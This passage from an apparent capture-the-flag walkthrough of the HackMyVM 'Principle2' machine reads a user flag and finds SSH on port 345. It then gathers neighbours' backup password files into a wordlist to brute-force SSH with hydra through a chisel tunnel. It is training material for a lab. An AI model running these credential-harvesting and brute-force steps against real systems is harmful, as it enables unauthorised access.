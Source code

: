 Now, we can get our first flag:

```
$ cat /home/hermanubis/user.txt
```

What was Hermanubis investigating?

```
$ cat /home/hermanubis/investigation.txt
I am aware that Byron hates me... especially since I lost my password.
My friends along with myself after several analyses and attacks, we have detected that Melville is using a 32 character password....
What he doesn't know is that it is in the Byron database...
```

Ok, so we know that Melville has a 32 character password.
All txt files in `/var/backup` have 32 characters, so let's assume that Melville is using an hexadecimal password that is stored in Byron's backup.
And we need a way to exploit this.

### SSH

If we chek the running services, we will find a running ssh service on port 345:

```
$ systemctl status ssh.service
● ssh.service - OpenBSD Secure Shell server
 ...
     Active: active (running) since ...
```

```
$ ss -tunel
Netid        State         Recv-Q        Send-Q               Local Address:Port                Peer Address:Port        Process
...
tcp          LISTEN        0             128                           [::]:345                         [::]:*            ino:16724 sk:29 cgroup:/system.slice/ssh.service v6only:1 <->
...
```

We can stablish a reverse proxy using chisel and try to brute force the ssh authentication with hydra.

#### The dictionary

The first thing we are going to need to perform this attack it's to create a dictionary with all the neighbors passwords:

```
$ sudo su principle2
$ cat /tmp/backups/*.txt > /tmp/neighbors_passwords.txt
$ exit
```

#### Chisel


[1]: https://kaianperez.github.io
[2]: https://hackmyvm.eu/machines/machine.php?vm=Principle2
